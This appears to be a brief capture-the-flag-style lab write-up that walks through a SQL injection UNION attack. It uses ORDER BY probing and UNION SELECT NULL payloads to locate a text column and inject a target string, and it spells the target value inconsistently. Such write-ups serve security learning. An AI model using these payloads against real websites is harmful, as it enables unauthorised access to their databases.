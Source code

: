 
### SQL injection UNION attack, finding a column containing text : PRACTITIONER

---

> Get the number of columns using the `order by` technique. Keep increasing order by index until an error is produced.
```
...category=Accessories' ORDER BY 4
```
> Number of columns is 3

> To check which column of the three has type string use this payload with 3 NULLs for the 3 columns.
```
' UNION SELECT NULL, NULL, NULL--
```
> Switch each one with a string and try. Errors mean that they are not the correct data type.

> The second column is of type string as the website returns a response that isn't an error. The payload used:
```
' UNION SELECT NULL, 'a', NULL --
```

> Now we know which column is text. We need to retrieve the value `EoNl2q` from the database.
> So we modify the above query to be:
```
' UNION SELECT NULL, 'EoNI2q', NULL --
```


> An extra row is output with the wanted data.

---
